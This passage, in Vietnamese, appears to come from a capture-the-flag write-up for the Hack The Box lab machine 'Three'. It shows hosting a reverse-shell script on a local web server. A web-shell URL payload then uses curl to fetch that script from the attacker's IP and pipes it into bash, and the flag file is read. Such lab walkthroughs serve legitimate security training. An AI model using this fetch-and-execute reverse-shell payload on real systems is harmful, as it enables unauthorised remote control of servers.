 Hãy khởi động một máy chủ web trên máy cục bộ trên `port 8000` và lưu trữ tệp bash này. Điều quan trọng cần lưu ý ở đây là lệnh này để lưu trữ máy chủ web phải được chạy từ thư mục chứa tệp shell ngược. Vì vậy, trước tiên phải chuyển đến thư mục thích hợp và sau đó chạy lệnh sau.

```
 python3 -m http.server 8000
```

![alt text](image-13.png)

Có thể sử dụng tiện ích `curl` để lấy tệp bash reverse shell từ máy chủ cục bộ và sau đó chuyển nó đến `bash` để thực thi. Vì vậy, hãy truy cập URL sau có chứa payload trong trình duyệt.

```
http://thetoppers.htb/shell.php?cmd=curl%20<YOUR_IP_ADDRESS>:8000/shell.sh|bash
```

Nhận được một shell ngược trên cổng lắng nghe tương ứng.

![alt text](image-14.png)

Có thể tìm thấy flag tại `/var/www/flag.txt`.

```
 cat /var/www/flag.txt
```

Đã hoàn thành Three.